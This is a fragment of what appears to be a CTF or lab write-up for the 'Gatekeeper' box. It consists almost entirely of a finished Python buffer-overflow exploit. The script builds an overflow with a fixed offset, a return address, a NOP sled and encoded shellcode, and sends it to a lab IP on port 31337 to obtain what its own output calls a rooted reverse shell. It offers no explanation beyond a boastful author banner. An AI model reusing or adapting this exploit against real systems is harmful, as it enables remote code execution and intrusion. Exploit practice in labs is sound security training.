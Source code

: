 - **Final Script:**

    - **`z_GATEKEEPER_FZ3R0_PWN_666.py`**
 
```python
import socket

ip = "10.10.5.62"
port = 31337

prefix = ""
offset = 146
overflow = "A" * offset
retn = "\xC3\x14\x04\x08"
padding = "\x90" * 16
payload = ("\xbb\x45\xf0\x26\x18\xdd\xc1\xd9\x74\x24\xf4\x58\x31\xc9\xb1"
"\x52\x31\x58\x12\x83\xc0\x04\x03\x1d\xfe\xc4\xed\x61\x16\x8a"
"\x0e\x99\xe7\xeb\x87\x7c\xd6\x2b\xf3\xf5\x49\x9c\x77\x5b\x66"
"\x57\xd5\x4f\xfd\x15\xf2\x60\xb6\x90\x24\x4f\x47\x88\x15\xce"
"\xcb\xd3\x49\x30\xf5\x1b\x9c\x31\x32\x41\x6d\x63\xeb\x0d\xc0"
"\x93\x98\x58\xd9\x18\xd2\x4d\x59\xfd\xa3\x6c\x48\x50\xbf\x36"
"\x4a\x53\x6c\x43\xc3\x4b\x71\x6e\x9d\xe0\x41\x04\x1c\x20\x98"
"\xe5\xb3\x0d\x14\x14\xcd\x4a\x93\xc7\xb8\xa2\xe7\x7a\xbb\x71"
"\x95\xa0\x4e\x61\x3d\x22\xe8\x4d\xbf\xe7\x6f\x06\xb3\x4c\xfb"
"\x40\xd0\x53\x28\xfb\xec\xd8\xcf\x2b\x65\x9a\xeb\xef\x2d\x78"
"\x95\xb6\x8b\x2f\xaa\xa8\x73\x8f\x0e\xa3\x9e\xc4\x22\xee\xf6"
"\x29\x0f\x10\x07\x26\x18\x63\x35\xe9\xb2\xeb\x75\x62\x1d\xec"
"\x7a\x59\xd9\x62\x85\x62\x1a\xab\x42\x36\x4a\xc3\x63\x37\x01"
"\x13\x8b\xe2\x86\x43\x23\x5d\x67\x33\x83\x0d\x0f\x59\x0c\x71"
"\x2f\x62\xc6\x1a\xda\x99\x81\x2e\x1d\xda\x5c\x47\x23\x1c\x4e"
"\xcb\xaa\xfa\x1a\xe3\xfa\x55\xb3\x9a\xa6\x2d\x22\x62\x7d\x48"
"\x64\xe8\x72\xad\x2b\x19\xfe\xbd\xdc\xe9\xb5\x9f\x4b\xf5\x63"
"\xb7\x10\x64\xe8\x47\x5e\x95\xa7\x10\x37\x6b\xbe\xf4\xa5\xd2"
"\x68\xea\x37\x82\x53\xae\xe3\x77\x5d\x2f\x61\xc3\x79\x3f\xbf"
"\xcc\xc5\x6b\x6f\x9b\x93\xc5\xc9\x75\x52\xbf\x83\x2a\x3c\x57"
"\x55\x01\xff\x21\x5a\x4c\x89\xcd\xeb\x39\xcc\xf2\xc4\xad\xd8"
"\x8b\x38\x4e\x26\x46\xf9\x6e\xc5\x42\xf4\x06\x50\x07\xb5\x4a"
"\x63\xf2\xfa\x72\xe0\xf6\x82\x80\xf8\x73\x86\xcd\xbe\x68\xfa"
"\x5e\x2b\x8e\xa9\x5f\x7e")
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("666:fz3r00t\> Sending the final Buffer Overflow with a sexy payload...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("")
  print("  I went to hell and came back with a treasure, enjoy your rooted reverse shell!!!") 
  print("")
  print("            Twitter:  Fz3r0_OPs")
  print("            Github :  Fz3r0")  
  print("")
  print("            I'm Fz3r0 and the Sun no longer rises...")
except:
  print("Could not connect.")
```

